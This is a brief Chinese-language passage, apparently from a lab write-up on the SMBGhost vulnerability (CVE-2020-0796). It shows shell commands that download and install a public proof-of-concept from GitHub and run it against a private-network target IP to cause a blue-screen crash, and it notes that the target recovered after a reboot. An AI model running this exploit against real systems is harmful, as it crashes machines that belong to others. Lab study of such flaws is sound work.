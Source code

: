 ![7](/medias/永恒之黑/7.png)

### 蓝屏攻击

下载蓝屏poc，安装环境

```bash
mkdir bluescreen
cd bluescreen
wget https://github.com/eerykitty/CVE-2020-0796-PoC/archive/refs/heads/master.zip
unzip master.zip
cd CVE-2020-0796-PoC-master
python3 setup.py install
```

准备好了，使用poc进行蓝屏攻击靶机

```bash
./CVE-2020-0796.py 192.168.237.136
```

蓝屏了，重启好像就没问题了？
